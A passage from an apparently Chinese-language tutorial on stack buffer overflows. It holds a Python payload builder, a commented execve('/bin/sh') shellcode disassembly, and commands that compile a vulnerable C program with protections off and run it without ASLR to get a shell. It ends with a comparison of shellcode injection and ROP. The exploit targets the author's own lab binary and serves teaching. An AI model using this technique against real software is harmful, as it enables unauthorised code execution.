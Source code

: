 ```python
# addr_exit_buf = 0x7fffffffdb60 # gdb
print(len(Shellcode))
payload = Shellcode + padding + p64(addr_exit_buf)

with open('hex', 'wb') as f:
    f.write(payload)

#    0x7fffffffdb60:      sub    $0x48,%rsp               # 开辟一块栈空间，防止 push 指令覆盖我们的汇编代码
# => 0x7fffffffdb64:      push   $0x68                    # h
#    0x7fffffffdb66:      movabs $0x732f2f2f6e69622f,%rax # /bin/s
#    0x7fffffffdb70:      push   %rax
#    0x7fffffffdb71:      mov    %rsp,%rdi
#    0x7fffffffdb74:      push   $0x1016972
#    0x7fffffffdb79:      xorl   $0x1010101,(%rsp)
#    0x7fffffffdb80:      xor    %esi,%esi
#    0x7fffffffdb82:      push   %rsi
#    0x7fffffffdb83:      push   $0x8
#    0x7fffffffdb85:      pop    %rsi
#    0x7fffffffdb86:      add    %rsp,%rsi
#    0x7fffffffdb89:      push   %rsi
#    0x7fffffffdb8a:      mov    %rsp,%rsi
#    0x7fffffffdb8d:      xor    %edx,%edx
#    0x7fffffffdb8f:      push   $0x3b
#    0x7fffffffdb91:      pop    %rax
#    0x7fffffffdb92:      syscall 
#    0x7fffffffdb94:      rex.B
#    0x7fffffffdb95:      rex.B
```
### 启动！/bin/sh
```sh
gcc -g -z execstack -fno-stack-protector -no-pie -Og main.c && objdump -d ./a.out > a.md
python3 att-sh.py
(cat hex; cat) | setarch $(uname -m) -R ./a.out

# --- 示例 ---
ls
a.md  a.out  att-sh.py  att.py  hex  init  main.c
cd ..
ls
Desktop    Downloads  Music      Public     Templates  linux      sshfiles
Documents  Pictures   Videos     mnt        tmp        win
ps
    PID TTY          TIME CMD
  91051 pts/4    00:00:00 fish
  91412 pts/4    00:00:00 sh
  91414 pts/4    00:00:00 cat
  91528 pts/4    00:00:00 ps
# CTRL+D / exit
```


### 总结：
*   **Shellcode 注入**：强大直接，但依赖于一个“不安全”的前提——**栈是可执行的 (W&X)**。
*   **ROP**：更为复杂和精巧，它通过重用程序自身的可执行代码片段 (Gadgets)，在**栈不可执行 (W^X)** 的安全环境中，依然能实现任意代码执行的效果。它是现代二进制漏洞利用的基石。